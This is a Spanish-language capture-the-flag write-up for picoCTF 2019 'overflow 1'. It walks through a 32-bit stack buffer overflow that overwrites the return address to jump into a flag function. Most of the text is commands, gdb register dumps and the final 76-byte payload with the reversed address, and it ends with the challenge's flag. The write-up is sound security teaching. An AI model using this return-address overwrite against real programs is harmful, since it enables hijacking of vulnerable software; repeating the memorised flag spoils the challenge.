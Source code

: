 Overflow1
============
###### You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://nodeca.github.io/pica/demo/) ? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://nodeca.github.io/pica/demo/).
---
El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos `file *` 
```
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```
Veamos que hace el programa.
```
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```
Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado.
Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://nodeca.github.io/pica/demo/)

``` C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```
- Algunos detalles de assembly antes de seguir.

| register | architecture | descripcion |
| :-------:| :----------: | :-----------|
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | <Instruction pointer register> |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | <Base pointer register> |


Siguiendo con el fuente, nos encontramos con un buffer de 64, haciendo la prueba de fuego.
```
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```
Vemos que no pasa nada, ya que los siguientes 4 bits guardaran la data que tenga el registro `%ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `%eip`).

Lo explica Dhaval Kapil en su brutal [articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Sumaremos los 4 bytes de %eip y los 4 bytes de %ebp, se los agregamos a los 64 del buffer
```
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```
Obtenemos el overflow, bien.

Saquemos la direccion en memoria de la funcion `flag`, con gdb, objdump, ida.. Usa el de preferencia.
```
gdb ./vuln
info functions
...
0x080485e6  flag
...
```
Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian)
Esto decidirá como va a leer nuestro programa el procesador.

Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

i.e: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`
```
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```
¿Por que habrá salido dos veces la instrucción?
```
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```
```
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```
Revisando en gdb no he entendido por que, pero seguiré investigando.

Aún no hemos llegado a la dirección de la función `flag`
```
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```
Si intentamos `"A"*73` vemos esto:
```
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```
##### Hemos cambiado el registro que direcciona!!

Why do this :0?
- Lo mismo que pasaba arriba con el registro `%ebp` pasa aca, asi que tenemos 4 bytes que debemos sumarle al buffer actual.
```
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```
`Woah, were jumping to 0x80485e6 !`
Y ahí lo tenemos, estamos en la dirección de la función `flag`

Si lo corremos en la shell de picoCTF
```
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
##### picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
